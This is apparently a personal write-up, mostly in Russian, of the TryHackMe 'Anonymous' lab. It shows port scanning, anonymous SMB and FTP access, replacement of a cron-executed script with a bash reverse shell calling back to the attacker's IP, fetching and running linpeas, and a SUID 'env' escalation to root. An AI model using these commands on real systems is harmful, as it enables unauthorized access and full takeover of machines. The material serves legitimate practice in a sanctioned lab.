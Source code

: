 https://tryhackme.com/room/anonymous

> [!IP]
> 10.10.43.173

```
nmap -sS 10.10.43.173 -T4 -p- -vv
```


```
Discovered open port 139/tcp on 10.10.43.173
Discovered open port 445/tcp on 10.10.43.173
Discovered open port 22/tcp on 10.10.43.173
Discovered open port 21/tcp on 10.10.43.173
```

```
sudo nmap 10.10.43.173 -vv -p139,445,22,21 -sC -sV -A 
```

![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419222118.png)



```
enum4linux 10.10.43.173
```
![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419223913.png)
![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419223925.png)


```
smbclient //10.10.43.173/pics -N
```

![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419222844.png)

![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419223102.png)

Явно что то связанное со стенографией....
```
ftp 10.10.43.173
```
![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419224357.png)
![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419224549.png)

В логах ничего интересного. А то что анонимный вход нужно выключить он прав).Возможно скрипт выполняется заданием cron.
```
echo "#\!/bin/bash" > clean.sh
echo "bash -i &>/dev/tcp/10.11.134.170/1338 <&1" >> clean.sh
```

```
ftp 10.10.43.173
Name (10.10.43.173:kali): ANONYMOUS
ftp> cd scripts
ftp> ls
ftp> rename clean.sh clear_1.sh
ftp> put clean.sh 
ftp> chmod +x clean.sh
550 Permission denied.
```

Оказалось что я не достаточно прав, так что изменяю на лету ((
![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419230618.png)
Получилось через lftp, edit clean.sh реверс прилетел буквально через пару минут
# Флаг User
![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419230745.png)

# LPE
```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 80
```

```
wget http://10.11.134.170/linpeas.sh && chmod +x linpeas.sh  && ./linpeas.sh 
```

![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419231114.png)
SUID
![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419231422.png)

Привет контейнер?
![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419231524.png)

https://gtfobins.github.io/
![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419231625.png)

```
namelessone@anonymous:/tmp$ env /bin/bash -p
env /bin/bash -p
id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
# Flag2
![anonymous](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/anonymous/screenshots/20250419232631.png)
